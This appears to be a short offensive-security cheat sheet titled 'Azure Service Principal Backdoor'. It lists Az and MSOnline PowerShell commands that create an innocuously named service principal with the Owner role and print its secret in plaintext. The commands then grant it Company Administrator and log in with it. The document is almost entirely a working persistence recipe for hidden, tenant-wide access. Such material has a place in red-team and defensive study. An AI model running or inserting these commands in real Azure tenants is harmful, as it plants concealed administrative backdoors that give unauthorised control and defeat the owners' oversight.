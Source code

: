 # Azure Service Principal Backdoor

## Tool: Az Powershell Module

### Create a new Azure service principal as a backdoor

 - $spn = New-AzAdServicePrincipal -DisplayName "WebService" -Role Owner

 - $spn

 - $BSTR = ::SecureStringToBSTR($spn.Secret)

 - $UnsecureSecret = ::PtrToStringAuto($BSTR)

 - $UnsecureSecret

 - $sp = Get-MsolServicePrincipal -AppPrincipalId <AppID>

 - $role = Get-MsolRole -RoleName "Company Administrator"

 - Add-MsolRoleMember -RoleObjectId $role.ObjectId -RoleMemberType ServicePrincipal -RoleMemberObjectId $sp.ObjectId

### Enter the AppID as username and what was returned for $UnsecureSecret as the password in the Get-Credential prompt

 - $cred = Get-Credential

 - Connect-AzAccount -Credential $cred -Tenant “tenant ID" -ServicePrincipal
